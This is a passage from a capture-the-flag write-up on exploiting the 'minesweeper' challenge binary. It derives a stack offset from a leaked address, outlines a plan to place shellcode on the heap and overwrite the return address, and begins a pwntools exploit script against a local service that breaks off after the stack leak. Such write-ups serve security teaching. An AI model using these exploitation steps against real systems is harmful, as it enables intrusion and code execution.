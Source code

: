 In this iteration of the program, the stack leak was `0xffffce3b`. With that, we can figure out the offset:

```
>>> hex(0xffffce0c - 0xffffce3b)
'-0x2f'
```

So we can see that the offset between the stack leak and the return address is `-0x2f`. Remember we will need to take another `-0x8` off, because it adds `8` to that value.

## tl ; dr

So putting it all together, this is how we will pwn the binary:

*	View an uninitizalized board to get a stack infoleak.
*	Initialize a 5 by 5 board and view it to get a heap infoleak
*	Construct a payload which will store shellcode in the heap, and do a write what where to overwrite the return address to point to our shellcode

## Exploit

Here is our exploit. For the shellcode, we had to jump through a couple of loops. Look to the comments in the exploit for more info.

```
# This exploit is based off of: https://github.com/ByteBandits/writeups/blob/master/csaw-quals-2017/pwn/minesweeper/sudhackar/README.md

from pwn import *

# Establish the target connection
#server = process('./minesweeper')
#gdb.attach(server)
target = remote('127.0.0.1', 31337)


# Establish the function used to interface with the code
def recvMainMenu():
	target.recvuntil("3) Q (Quit)\n")


def recvNewMenu():
	target.recvuntil("3) Quit game (Q)\n")

def recvLines(x):
	for i in xrange(x):
		target.recvline()

def initializeGame(payload, x, y, q = True):
	target.sendline("I")
	target.recvline()
	target.sendline("B " + str(x) + " " + str(y))
	target.recvuntil("character X\n")
	target.sendline(payload)
	if q == True:
		target.recvuntil("3) Q (Quit)\n")

# Leak the stack infoleak by just viewing an unintialized board
recvMainMenu()
target.sendline("N")
recvNewMenu()
target.sendline("V")
recvLines(16)
stackLeak = u32(target.recv(5)[1:5])
log.info("Stack Leak: " + hex(stackLeak))
```